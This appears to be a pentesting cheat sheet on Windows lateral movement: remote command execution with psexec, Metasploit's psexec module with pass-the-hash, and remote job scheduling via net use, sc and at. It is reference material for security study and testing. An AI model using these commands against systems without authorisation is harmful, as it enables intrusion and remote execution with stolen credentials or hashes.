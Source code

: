 
### Running Remote Commands (psexec) ###
To run commands against a remote system leverage `psexec`, not included in Windows by default it is apart of [Microsoft Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/). 

Features:
- Requires SMB session
- Run as local `SYSTEM` privileges  with `-s` flag.
- Run as specific user `-u [username] -p [password]`.
- Daemonize with `-d` flag; detache and runs in background.
- Copy program to remove system with `-c`.
- By not specifying a user to run as it will default to the current user.

```
C:\> psexec \\[remote_ip] -u [username] -p [password] [command]
C:\> psexec \\[remote_ip] -d -s [command]
C:\> psexec \\[remote_ip] -c [command]
```

Metasploits version of `psexec` supports _pass-the-hash_ capabilities.
```
msf > use exploit/windows/smb/psexec
msf > set PAYLOAD [payload]
msf > set RHOST [remote_ip]
msf > SMBUser [username]
msf > SMBPass [password]
    or
msf > SMBPass [hash]
```

Note: Pivoting via `psexec` minimizes unintended crashes etc.

**Other methods of running remote commands involve task scheduling, see next.**

---

### Scheduling Jobs ###
In Windows, task scheduling is one of the _"most common methods"_ to run remote commands ... probably because the lack of naitive SSH *cough cough*. The advantage of this method over `psexec` is that all executables are included by default in the operating system.

*Pre-requisits:*
- SMB session required `net use \\[remote_ip] /u:[username] [password]`
- Verify "Schedule" service is running `sc \\[remote_ip] query schedule`
- Start "Schedule" service if not already running `sc \\[remote_ip] start schedule`
- Verify  sstem time of remote system is correct`net time \\[remote_ip]`
 
 
#### `at` command ####
Only able to run as local `SYSTEM` user.
Some Windows operating systems support the 24HR time format.
```
C:\> at \\[remote_ip] [HH:MM][A|P] [command]
```
Verify job has started with the command `at \\[remote_ip]`.
 